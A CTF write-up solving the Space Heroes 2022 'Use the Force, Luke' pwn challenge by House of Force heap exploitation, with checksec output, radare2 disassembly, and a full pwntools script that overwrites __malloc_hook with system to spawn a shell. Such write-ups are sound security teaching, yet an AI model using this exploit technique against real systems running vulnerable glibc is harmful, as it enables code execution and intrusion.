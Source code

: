 ```yaml
---
title: "Pwn: Use the Force, Luke"
date: 2025-01-15
draft: false
summary: Space Heroes CTF 2022. House of Force heap exploitation.
tags:
  - heap
  - house-of-force
category: Pwn
---
```

###### Challenge
We are provided a zip file which contains the binary *force* and its GLIBC. The binary seems to be using `GLIBC 2.28 No TCache`. Let's analyze the binary to get more information.

`force: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./.glibc/glibc_2.28_no-tcache/ld.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c50b5c7f0a7dc45dd3409c7fbf1350c534c52662, not stripped`

```
┌──(chronopad㉿VincentXPS)-[~/Documents/ctf2025/SpaceHeroesCTF_2022/usetheforceluke]
└─$ checksec force
[*] '/home/chronopad/Documents/ctf2025/SpaceHeroesCTF_2022/usetheforceluke/force'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'./.glibc/glibc_2.28_no-tcache'
    Stripped:   No
```

We are given a custom GLIBC file, which means that there's a specific exploit that we can only perform in this specific GLIBC version, usually a part of heap exploitation techniques.

###### Solution
If we run the binary, we are given two addresses leak. One address is system and the other seems to be the address of the heap. We are then given two choices, which is to "Reach out with the force" or to "Surrender". Surrendering will exit the program while the first option will trigger some questions. To understand what they do, we can try disassembling the binary. Here is a part of `main()` disassembled with **radare2**.

```
│     │╎│   0x004009a2      488d3dbc0100.  lea rdi, str.How_many_midi_chlorians_:_ ; 0x400b65 ; "How many midi-chlorians?: "
│     │╎│   0x004009a9      b800000000     mov eax, 0
│     │╎│   0x004009ae      e8bdfdffff     call sym.imp.printf         ; int printf(const char *format)
│     │╎│   0x004009b3      488d45e0       lea rax, [var_20h]
│     │╎│   0x004009b7      4889c6         mov rsi, rax
│     │╎│   0x004009ba      488d3dbf0100.  lea rdi, str._llu           ; 0x400b80 ; "%llu"
│     │╎│   0x004009c1      b800000000     mov eax, 0
│     │╎│   0x004009c6      e8e5fdffff     call sym.imp.__isoc99_scanf ; int scanf(const char *format)
│     │╎│   0x004009cb      488d3db30100.  lea rdi, str.What_do_you_feel_:_ ; 0x400b85 ; "What do you feel?: "
│     │╎│   0x004009d2      b800000000     mov eax, 0
│     │╎│   0x004009d7      e894fdffff     call sym.imp.printf         ; int printf(const char *format)
│     │╎│   0x004009dc      488b45e0       mov rax, qword [var_20h]
│     │╎│   0x004009e0      4889c7         mov rdi, rax
│     │╎│   0x004009e3      e8b8fdffff     call sym.imp.malloc         ;  void *malloc(size_t size)
```

We can see that the program calls `malloc()`, using the amount of midi-chlorians as the chunk size. Anything we input to the "What do you feel?" question will then be written to the heap memory chunk.

Based on the challenge name, we can pretty much guess that this challenge is a House of Force heap exploitation challenge. This exploitation techniques works by writing more data to the heap more than the chunk size that we requested, which overwrites the size field of the top chunk of the heap, allowing us to do arbitrary write and even code execution.

![Image Description](/images/Pasted%20image%2020250115205717.png)

Because this is just a standard / base-case of the House of Force technique, I'll cut the explanation and go straight for the exploitation. If you are interested about the exploitation, feel free to read the resource below:
- https://mohamed-fakroud.gitbook.io/red-teamings-dojo/binary-exploitation/heap-house-of-force

```
# exploit.py
from pwn import *

elf = context.binary = ELF("./force")
libc = ELF("./.glibc/glibc_2.28_no-tcache/libc-2.28.so")
io = process(elf.path)
context.log_level = 'debug'

def malloc(size, data):
	io.sendlineafter(b"(2) Surrender\n", b"1")
	io.sendlineafter(b"How many midi-chlorians?: ", str(size).encode())
	io.sendlineafter(b"What do you feel?: ", data)

io.recvuntil(b"You feel a system at ")
libc.address = int(io.recvline().decode(), 16) - libc.sym["system"]
io.recvuntil(b"You feel something else at ")
heap_addr = int(io.recvline().decode(), 16)

print(f"Libc address: {hex(libc.address)}")

malloc(24, b"/bin/sh\x00" + b"A"*16 + p64(0xffffffffffffffff))
malloc((libc.sym["__malloc_hook"] - 0x20) - (heap_addr + 0x20), b"A")
malloc(24, p64(libc.sym["system"]))
# malloc(str(heap_addr + 0x10).encode(), b"A")
malloc(next(libc.search(b"/bin/sh")), b"") # Honestly more reliable

io.interactive()
```

Link, resources:
- https://github.com/knittingirl/CTF-Writeups/tree/main/pwn_challs/space_heroes_22/Use%20the%20Force%2C%20Luke
- https://mohamed-fakroud.gitbook.io/red-teamings-dojo/binary-exploitation/heap-house-of-force
